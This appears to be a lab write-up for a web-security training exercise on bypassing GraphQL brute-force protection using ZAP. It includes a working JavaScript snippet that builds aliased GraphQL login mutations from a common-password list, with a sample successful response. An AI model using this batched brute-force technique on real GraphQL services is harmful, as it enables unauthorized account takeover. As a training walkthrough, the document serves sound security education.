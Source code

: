 # Lab: Bypassing GraphQL brute force protections

In ZAP's browser attempt a login with credentials `admin:admin`. In __History__ tab, notice a `POST /graphql/v1` request and right-click it to "Open in Requester Tab". 

The request body, should look something like this:

```json
{"query":"\n    mutation login($input: LoginInput!) {\n        login(input: $input) {\n            token\n            success\n        }\n    }","operationName":"login","variables":{"input":{"username":"admin","password":"admin"}}}
```

This is what is known as an __escaped__ GraphQL query (with all the `\n` characters and whitespaces). Unfortunately ZAP doesn't have a neat __GraphQL__ tab in Requester, the way Burp does in Repeater, so we will have to tweak the JavaScript provided by the lab under the _Tip_ section, so that it generates a list of escaped GraphQL query aliases:

```javascript
copy("123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow".split(',').map((p,i)=>`\\n        bruteforce${i}: login(input:{username:\\"carlos\\", password:\\"${p}\\"}) { token success }`).join('')); console.log('Escaped GraphQL aliases copied!');
```

Now the output of this will automatically copied to your clipboard. Go back to __Requester Tab__ and request body and paste it right after the `success\n        }\n` (put your cursor after the second `\n` in the example and paste). Click "Send". Here's part of the response we care about:

```json
"bruteforce91": 
      "token": "V5NWAbENoRZPFmp7yOwHSiTozrt33eKt",
      "success": true
},
```

> The rest of the flow is the same as in the [original](README.md) write-up.
